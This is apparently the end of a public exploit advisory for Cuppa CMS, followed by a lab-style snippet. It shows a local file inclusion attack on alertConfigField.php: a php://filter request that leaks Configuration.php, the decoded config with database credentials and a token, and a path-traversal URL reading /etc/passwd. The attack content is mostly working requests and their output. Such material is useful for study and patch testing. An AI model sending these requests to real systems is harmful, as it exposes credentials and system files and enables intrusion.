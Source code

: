 For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
...
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "Db@dmin";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2 
################################################################################################################
</code></pre>

<br>


<pre><code>http://skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
</code></pre>

![image](https://github.com/user-attachments/assets/3be775db-8436-4af3-9e14-4ab897535045)
